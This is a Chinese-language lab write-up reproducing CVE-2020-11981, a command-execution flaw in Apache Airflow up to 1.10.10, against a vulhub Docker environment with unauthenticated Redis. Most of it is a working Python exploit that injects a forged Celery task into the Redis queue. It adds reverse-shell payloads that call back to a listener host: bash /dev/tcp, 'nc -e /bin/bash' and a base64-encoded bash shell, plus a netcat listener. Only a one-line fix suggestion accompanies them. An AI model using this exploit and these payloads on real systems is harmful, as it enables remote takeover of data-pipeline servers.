# Apache Airflow Celery 消息中间件命令执行

## 漏洞编号

CVE-2020-11981


## 漏洞描述

Airflow 是一个使用 python 语言编写的 data pipeline 调度和监控工作流的平台。Airflow 是通过 DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具， 不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。


这个平台拥有和 Hive、Presto、MySQL、HDFS、Postgres 等数据源之间交互的能力，并且提供了钩子（hook）使其拥有很好地扩展性。除了一个命令行界面，该工具还提供了一个基于 Web 的用户界面可以可视化管道的依赖关系、监控进度、触发任务等。


Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前，如果攻击者控制了Celery的消息中间件（如Redis/RabbitMQ），将可以通过控制消息，在Worker进程中执行任意命令。


利用这个漏洞需要控制消息中间件，vulhub环境中Redis存在未授权访问

通过未授权访问，攻击者可以下发自带的任务airflow.executors.celery_executor.execute_command来执行任意命令，参数为命令执行中所需要的数组


## 影响范围

Apache Airflow <= 1.10.10


## 环境搭建

```
# 初始化数据库
docker-compose run airflow-init
# 启动服务
docker-compose up -d
```






验证

```
docker-compose ps
```



成功


## 漏洞复现

利用提供的脚本

```
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0)
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```



及在/tmp目录下创建ariflow_celery_success文件


执行该脚本

```
python exploit_airflow_celery.py 192.168.23.134
```


进入容器中验证

```
docker ps
docker exec -it d36881f4f674 /bin/bash
ls /tmp
```



成功创建


尝试反弹shell

修改脚本

```
command = ['bash','-i','>&','/dev/tcp/192.168.23.134/283','0>&1']
```


本地开启监听

```
nc -lvp 283
```




但是利用bash反弹shell失败


进入容器中验证是否有nc

```
docker exec -it d36881f4f674 /bin/bash
which nc
```



存在nc


利用nc反弹shell

再次修改脚本

```
command = ['nc','-e','/bin/bash','192.168.23.134','283']
```




执行脚本

```
python exploit_airflow_celery.py 192.168.23.134
```





成功弹回shell


利用script美化终端

```
/usr/bin/script -qc /bin/bash /dev/null
```




利用base64编码bash弹shell

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEzNC8yODMgMD4mMQ==}|{base64,-d}|{bash,-i}
```




再次修改py文件

```
command = ['bash','-c','{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEzNC8yODMgMD4mMQ==}|{base64,-d}|{bash,-i}']
```




执行

```
python exploit_airflow_celery.py 192.168.23.134
```




成功弹回shell




## 修复建议

及时更新到新版本

